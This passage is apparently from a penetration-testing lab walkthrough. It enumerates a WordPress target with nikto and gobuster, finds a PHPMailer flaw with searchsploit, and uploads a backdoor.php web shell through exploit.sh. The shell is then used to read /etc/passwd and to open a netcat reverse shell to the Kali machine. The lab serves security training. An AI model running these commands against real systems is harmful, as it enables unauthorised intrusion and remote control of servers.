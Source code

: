 3. Enumerate the web server with `nikto`.
     - **Hint**: Run: `nikto -C all -h <URL>`.
     - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

  ```bash
  # Generate a list of discovered URLs
  # Note that this discovers `wordpress` directories
  $ nikto -C all -h http://192.168.1.115
  ```

  **HINT**: Don't spend too much time with `nikto` before moving on to `gobuster`. Use it to gain more insight into the system, and then move on.

4. Perform a more in-depth enumeration with `gobuster`.
     - **Hint**:
       - Run `apt install gobuster`
       - Run `gobuster -w /path/to/wordlist dir -u <URL>`
       - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
       - Pay attention to the `/vendor` directory. There's a `flag` in here.

    - **Solution**

      - The enumeration command is:
      ```bash
      $ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115
      ```
 
   Navigating to `http://192.168.1.115/vendor` reveals a `flag1.txt` in the directory.

5. Use “searchsploit” to find any known vulnerabilities associated with the programs found in Step #4.
    - Run: `searchsploit phpmailer` to find the related vulnerability.

6. Use the `exploit.sh` script to exploit this vulnerability by opening an ncat connection to your Kali VM.
    - The easiest way to get the script onto the Kali VM is to use a web text/paste service like https://pastebin.com to copy the script from your local machine to the web, and then retrieve it from the Kali Machine.
    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.
    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute **command injection attacks**.
    - Navigate to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`.
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`
    - Next, use the backdoor to open a shell session on the target.
      - On your **Kali** VM, start a netcat listener with `nc -lnvp 4444`.
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

    **Solution**

      - First, edit line 4 in `exploit.sh` to read: `TARGET=http://192.168.1.115/contact.php`.

